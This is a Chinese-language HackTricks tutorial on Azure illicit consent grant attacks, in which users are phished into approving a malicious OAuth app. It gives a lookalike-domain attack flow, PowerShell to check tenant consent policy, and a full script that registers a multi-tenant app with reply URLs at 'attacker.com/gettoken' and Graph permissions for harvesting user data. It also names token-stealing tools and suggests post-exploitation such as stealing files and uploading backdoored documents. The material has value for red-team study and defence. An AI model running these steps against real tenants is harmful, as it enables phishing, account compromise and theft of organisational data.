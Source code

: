 # Az - 非法同意授予

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## OAuth应用程序钓鱼

**Azure应用程序**请求访问**用户数据**的权限（基本信息，还可以访问文档，发送电子邮件等）。\
如果**允许**，普通用户只能为**“低影响权限”**授予同意。在**所有其他**情况下，**需要管理员同意**。\
`GA`，`ApplicationAdministrator`，`CloudApplication` `Administrator`和包括`允许向应用程序授予权限`的自定义角色可以提供租户范围的同意。

只有**不需要管理员同意**的权限被分类为**低影响**。这些是用于**基本登录的权限**，如openid、profile、email、User.Read和offline\_access。如果**组织****允许**用户对**所有应用程序**进行同意，员工可以同意应用程序**从其个人资料中读取上述信息**。

<figure><img src="../../../.gitbook/assets/image (3) (2) (1).png" alt=""><figcaption></figcaption></figure>

因此，攻击者可以准备一个**恶意应用程序**，通过**钓鱼**使用户**接受该应用程序并窃取其数据**。

### 2种非法同意授予攻击类型

* **未经身份验证**：从外部帐户创建一个具有权限`User.Read`和`User.ReadBasic.All`的应用程序，例如，钓鱼一个用户，然后您将能够访问目录信息。
* 这需要被钓鱼的用户能够接受来自外部环境的OAuth应用程序！
* **经过身份验证**：已经破坏了具有足够特权的主体，创建一个帐户内的应用程序，并钓鱼一些可以接受特权OAuth权限的特权用户。
* 在这种情况下，您已经可以访问目录信息，因此权限`User.ReadBasic.All`不再有趣。
* 您可能对**需要管理员授予的权限**感兴趣，因为原始用户无法为OAuth应用程序授予任何权限，这就是为什么您需要**只钓鱼那些用户**（稍后将详细介绍哪些角色/权限授予了此特权）

### 检查用户是否允许同意

以下PowerShell命令用于检查Azure Active Directory（Azure AD）中用户的同意配置，以确定他们是否能够同意应用程序：
```powershell
PS AzureADPreview> (GetAzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
```
* **禁用用户同意**: 此设置禁止用户向应用程序授予权限。不允许用户同意任何应用程序。
* **用户可以同意来自经过验证的发布者或您的组织的应用程序，但仅限您选择的权限**: 此设置允许所有用户仅同意由经过验证的发布者发布的应用程序以及在您自己的租户中注册的应用程序。它通过仅允许特定权限的同意来增加一层控制。
* **用户可以同意所有应用程序**: 此设置更为宽松，允许所有用户同意任何应用程序的权限，只要这些权限不需要管理员同意。
* **自定义应用程序同意策略**: 此设置表示已制定了自定义策略，可根据特定组织要求进行定制，并可能涉及基于应用程序发布者、应用程序请求的权限和其他因素的限制组合。

## **理解非法同意授予攻击**

在非法同意授予攻击中，攻击者欺骗最终用户向在Azure中注册的恶意应用程序授予权限。这是通过使应用程序看起来合法，导致受害者在不知情的情况下点击“接受”按钮来实现的。结果，Azure AD向攻击者的站点发放令牌，使他们能够访问和操纵受害者的数据，例如读取或发送电子邮件和访问文件，而无需组织帐户。

## **攻击流程概述**

攻击涉及针对一家通用公司的几个步骤。以下是攻击可能展开的方式：

1. **域名注册和应用程序托管**: 攻击者注册一个类似可信站点的域名，例如“safedomainlogin.com”。在此域名下，创建一个子域（例如“companyname.safedomainlogin.com”）来托管一个旨在捕获授权代码并请求访问令牌的应用程序。
2. **在Azure AD中注册应用程序**: 然后，攻击者在其Azure AD租户中注册一个多租户应用程序，将其命名为目标公司，以显得合法。他们将应用程序的重定向URL配置为指向托管恶意应用程序的子域。
3. **设置权限**: 攻击者使用各种API权限（例如`Mail.Read`、`Notes.Read.All`、`Files.ReadWrite.All`、`User.ReadBasic.All`、`User.Read`）设置应用程序。一旦用户授予这些权限，攻击者就可以代表用户提取敏感信息。
4. **分发恶意链接**: 攻击者制作一个包含恶意应用程序的客户端ID的链接，并与目标用户共享，诱使他们同意授予权限。

## **利用攻击工具**

攻击可以利用诸如[**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)之类的工具来实施。

### 攻击前准备:

如果攻击者在受害组织中的某个用户具有一定级别的访问权限，他们可能会检查组织的政策是否允许用户接受应用程序：
```powershell
Import-Module .\AzureADPreview\AzureADPreview.psd1
$passwd = ConvertTo-SecureString "Password!" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("generic@corp.onmicrosoft.com", $passwd)
Connect-AzureAD -Credential $creds
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole
# Check if "ManagePermissionGrantsForSelf.microsoft-user-default-legacy" is present, indicating permission to accept apps.
```
为执行攻击，攻击者需要在其Azure租户中创建一个**新的应用程序**（在应用程序注册中），并配置以下权限：

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

`User.ReadBasic.All`位于`Microsoft Graph`中的`委派权限`中。（应用程序权限始终需要额外批准）。

* `User.ReadBasic.All`是一个权限，如果被授予，将允许您**读取组织中所有用户的信息**。
* 请记住，只有`GA`、`ApplicationAdministrator`、`CloudApplication` `Administrator`和包括`授予应用程序权限的权限`的自定义角色可以提供租户范围的同意。因此，如果您希望某用户批准**需要管理员同意的应用程序**，您应该**钓鱼一个具有这些角色之一的用户**。

您还可以通过cli创建一个应用程序：
```bash
# Generate Application
New-AzureADApplication -DisplayName "MyApp"  -ReplyUrls @("https://attacker.com", "https://attacker.com/gettoken") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true

# Generate Secret
New-AzureADApplicationPasswordCredential -ObjectId f76ebd35-xxxx-xxxx-xxxx-xxxxxxxxxxxx -CustomKeyIdentifier "MyAppSecret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

# Generate an application with the permissions
$objectid=New-AzureADApplication -DisplayName "AppName"  -ReplyUrls @("https://example.com/login/authorized") -Oauth2AllowImplicitFlow $true -AvailableToOtherTenants $true | select-object ObjectId
New-AzureADApplicationPasswordCredential -ObjectId $objectid.ObjectId -CustomKeyIdentifier "secret" -StartDate (Get-Date) -EndDate (Get-Date).AddYears(3)

$AppObjectID = $objectid.ObjectId # object id in AD
$app = Get-AzureADApplication -ObjectId $AppObjectID
$AADAccess = $app.RequiredResourceAccess | Where-Object {$_.ResourceAppId -eq "00000003-0000-0000-c000-000000000000"}  # "00000003-0000-0000-c000-000000000000" represents Graph API
if($AADAccess -eq $null) {
$AADAccess = New-Object Microsoft.Open.AzureAD.Model.RequiredResourceAccess
$AADAccess.ResourceAppId = "00000003-0000-0000-c000-000000000000"

$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)

$app.RequiredResourceAccess.Add($AADAccess)
} else {
$Access = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access.Type = "Scope"
$Access.Id = "14dad69e-099b-42c9-810b-d002981feec1"
$AADAccess.ResourceAccess = @()
$AADAccess.ResourceAccess.Add($Access)

$Access2 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access2.Type = "Scope"
$Access2.Id = "e1fe6dd8-ba31-4d61-89e7-88639da4683d"
$AADAccess.ResourceAccess.Add($Access2)

$Access3 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access3.Type = "Scope"
$Access3.Id = "df85f4d6-205c-4ac5-a5ea-6bf408dba283"
$AADAccess.ResourceAccess.Add($Access3)

$Access4 = New-Object Microsoft.Open.AzureAD.Model.ResourceAccess
$Access4.Type = "Scope"
$Access4.Id = "10465720-29dd-4523-a11a-6a75c743c9d9"
$AADAccess.ResourceAccess.Add($Access4)
}

Set-AzureADApplication -ObjectId $AppObjectID -RequiredResourceAccess $app.RequiredResourceAccess
Get-AzureADApplication -ObjectId $objectid.ObjectId | select-object appid
```
{% endcode %}

查看[https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) 以了解如何配置。

{% hint style="warning" %}
请注意，获取的**访问令牌**将用于**图终结点**，具有范围：`User.Read` 和 `User.ReadBasic.All`（请求的权限）。您将无法执行其他操作（但这足以**下载有关组织中所有用户的信息**）。
{% endhint %}

## [O365-Attack-Toolkit](https://github.com/mdsecactivebreach/o365-attack-toolkit)

您还可以使用此工具执行此攻击。

## 后渗透

一旦您获得用户访问权限，您可以执行诸如窃取敏感文件甚至上传带后门的文档文件等操作。

## 参考资料

* [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
* [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 发现[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
